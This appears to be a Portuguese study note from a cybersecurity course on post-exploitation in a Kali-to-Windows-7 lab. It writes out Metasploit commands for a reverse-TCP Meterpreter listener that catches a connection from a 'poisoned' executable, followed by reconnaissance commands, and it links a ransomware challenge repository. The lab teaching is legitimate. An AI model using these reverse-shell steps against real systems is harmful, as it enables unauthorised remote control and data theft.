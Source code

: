 # Pos Exploração 
Last Update: 06/10/2025

Desafio Adicional:https://github.com/cassiano-dio/cibersecurity-desafio-ransomware

passo a Psso DIO
⭕ https://www.youtube.com/watch?v=icXw-N1HhmY&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

# Inicio
  A pós exploração é o momento apos ter conseguido com sucesso entrar atravez do exploit, onde começarmços a tentar elevar nossos privilegios, encontrar Informações e manter nossa conexão

  ### Escalonamento de Privilegios
Uma vez dentro do sistema usando algum usuario, tentamos cosseguir permições ou informações de usuarios com permições superiores.

• SQL Infejtion
• Manipulação de dados
• Exploitar construções fracas

# Pratica - Kali > Windows 7 
Aqui seguimos com a aula de [DIO - Tecnicas de exploração

⏩ Vamos seguir no Kali, usando o Metasploit

▶️ use mult/handler

▶️set payload windows/materpreter/reverse_tcp

((Setar o local host))
▶️ set lhost 192.168.56.103
((Quem vai controlar o servidro))
▶️Set lport 4444
▶️run

‼️ Nesse momento, temos um exe. envenenado na maquina alvo, quando ele for exucutado pelo nosso alvo uma conexação sera criada. enviando para nosso host atravez de uma porta determinada na construção do viruz pelo Meterpreter

# CONEXÂO ESTABELECIDA- POS-OPERAÇÂo

## Coletando informações

✒️Informações do sistema, windows, para podermos aproveitas outras vunerabilidades
▶️sysinfo

✒️Nome do usuario
▶️ getuid
